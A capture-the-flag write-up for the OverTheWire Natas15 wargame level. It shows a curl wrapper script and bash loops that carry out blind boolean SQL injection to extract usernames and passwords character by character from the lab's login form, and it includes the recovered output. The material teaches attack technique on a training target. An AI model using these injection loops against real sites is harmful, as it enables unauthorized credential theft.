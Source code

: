 # NATAS

**https://overthewire.org/wargames/natas/natas0.html**

### Natas15

**First, let's get our injector going. Just the curl with the data from the post prepared:**

cat injector.sh
>#!/bin/bash  
>  
>DATA=$1  
>  
>curl -s 'http://natas15.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic XXXXXXXXXXXXXXXXXXXXXXXXXXX' -H 'Cookie: __cfduid=XXXXXXXXXXXXXXXXXXXXX' -H 'Host: natas15.natas.labs.overthewire.org' -H 'Referer: http://natas15.natas.labs.overthewire.org/index.php' --data "username=testssdf\" or $DATA" | grep -c "This user exists"  

**Then, let's start injecting:**

USER=0;for j in {0..3}; do for((h=1;h<=10;h++)); do RES=$(./injector.sh "(select length(username) from users limit $USER,1)=%22$h"); if [[ $RES == 1 ]]; then L=$h; fi; done; echo -n "[+]Found user $USER: "; for((t=1;t<=$L;t++)); do for i in {32..126}; do RES2=$(./injector.sh "(select ascii(substr(username,$t,1)) from users limit $USER,1)=%22$i"); if [[ $RES2 == 1 ]]; then printf \\$(printf '%03o\n' "$i"); fi; done;done;echo "";  USER=$(echo $USER+1 | bc); done
>[+]Found user 0: alice  
>[+]Found user 1: bob  
>[+]Found user 2: charlie  
>[+]Found user 3: natas16  

USER=0;for j in {0..3}; do for((h=1;h<=10;h++)); do RES=$(./injector.sh "(select length(password) from users limit $USER,1)=%22$h"); if [[ $RES == 1 ]]; then L=$h; fi; done; echo -n "[+]Found password $USER: "; for((t=1;t<=$L;t++)); do for i in {32..126}; do RES2=$(./injector.sh "(select ascii(substr(password,$t,1)) from users limit $USER,1)=%22$i"); if [[ $RES2 == 1 ]]; then printf \\$(printf '%03o\n' "$i"); fi; done;done;echo "";  USER=$(echo $USER+1 | bc); done
>[+]Found password 0: hROtsfM734  
>[+]Found password 1: 6P151OntQe  
>[+]Found password 2: HLwuGKts2w  
>[+]Found password 3: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX **<- No spoils ^^**   
